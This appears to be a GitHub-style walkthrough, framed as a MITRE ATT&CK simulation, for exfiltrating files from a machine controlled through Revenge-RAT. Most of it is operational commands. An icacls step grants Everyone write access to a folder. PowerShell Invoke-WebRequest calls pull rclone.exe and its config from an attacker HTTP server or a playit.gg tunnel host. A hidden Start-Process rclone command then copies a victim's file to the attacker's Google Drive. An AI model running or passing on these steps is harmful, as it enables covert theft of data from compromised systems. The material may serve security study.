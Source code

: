 ## MITRE ATT\&CK Exfiltration Simulation via Google Drive using **rclone**

We can exfiltrate data using RAT's built-in download functionality already, it will then save into **E:\Hacking\Tools\Revenge-RAT v0.3\Users\User_name\downloads**. But to simulate it through powershall I deep dive into this. I tried many ways, I tried to build a http server using flask, and then through port forwarding, I tried to send files there. But as the RAT doesn't have write access thats why I didn't manage to do it then. Then I tried to do it directly via Google Drive, but I faced typos there. Then I tried rclone, to do so, it is better to use your own drive. And for this,s I followed **https://console.cloud.google.com/auth/clients?inv=1&invt=AbxtVQ&project=theta-totem-446705-j3** this link, to get the client id and client secret, then I use it later while setting rclone. Here are the following steps to do exfiltration:

### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with Google Drive**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `myStorage`
3. Choose storage type: `drive` (20 for Google Drive)
4. Follow the prompts to authenticate via browser (use your Google account).
5. At the end, type `y` to confirm, then `q` to quit.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From the attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
# Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\PublicRAT\rclone.conf"
```

```powershell
Invoke-WebRequest -Uri "http://192.168.113.226:8000/rclone.exe" -OutFile "C:\NewRAT\rclone.exe"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
```

Notes:

* `myStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check Google Drive**

Your file (e.g., `secret.txt`) should now appear in the root of your Google Drive. You need to wait for some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to Google Drive          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |


### Full process using port forwarding

* Start the playit.gg both from homescreen and the playit-0.9.3-signed from **E:\Hacking\Tools\PlayIt.gg**
* E.g., start the server from **E:\Hacking\rclone-v1.69.2-windows-amd64\rclone-payload** :
   ```bash
   python -m http.server 1335
   ```
* Then do the following:
  ```powershall
  mkdir C:\PublicRAT
  icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
  ```
  
  Now your RAT shell should be able to **write files there**, e.g.:
  
  ```cmd
  cmd.exe /c echo Hello > C:\PublicRAT\test.txt
  ```
* If the **test.txt** successfully writes in that location, then do:
  ```powershell
  Invoke-WebRequest -Uri "http://silver-generate.gl.at.ply.gg:22366/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
  Invoke-WebRequest -Uri "http://silver-generate.gl.at.ply.gg:22366/rclone.conf" -OutFile "C:\PublicRAT\rclone.conf"
  ```
* Then transfer data using the following convention:
  ```powershell
  Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
  ```
* Check your BSSE drive and click recent, you will get the desired file.
